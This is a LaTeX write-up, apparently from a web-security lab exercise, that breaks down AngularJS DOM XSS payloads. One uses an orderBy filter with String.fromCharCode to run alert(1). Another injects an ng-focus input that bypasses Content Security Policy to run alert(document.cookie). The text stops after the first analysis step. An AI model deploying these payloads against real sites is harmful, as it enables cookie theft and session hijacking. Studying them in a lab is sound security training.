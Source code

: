 \documentclass{article}
\begin{document}
\begin{itemize}
\item \textbf{Combining Both: The Exploit}
\begin{lstlisting}[frame=single]
[1] | orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,
116,40,49,41)
\end{lstlisting}
\begin{enumerate}
\item toString().constructor = String constructor
\item String.fromCharCode(...) = Decodes to "x=alert(1)"
\item orderBy processes this as JavaScript code
\item Result: alert(1) executes
\end{enumerate}


\item \section*{AngularJS DOM XSS Exploit Analysis}

\subsection*{Payload Breakdown}
\begin{lstlisting}[frame=single]
location='https://YOUR-LAB-ID.web-security-academy.net/?
search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27
(z=alert)(document.cookie)%27%3E#x';
\end{lstlisting}

\subsection*{URL Decoded Version}
\begin{lstlisting}[frame=single]
?search=<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)
(document.cookie)'>#x
\end{lstlisting}

\subsection*{Payload Analysis}


\textbf{1. Input Element Creation}
\begin{lstlisting}[frame=single]
<input id=x ng-focus=...>
\end{lstlisting}
\begin{itemize}
    \item Creates input field with ID \texttt{x}
    \item Uses Angular directive \texttt{ng-focus} (triggers on focus)
    \item \textbf{Bypasses CSP} by using Angular events instead of inline scripts
\end{itemize}


\end{itemize}
\end{document}
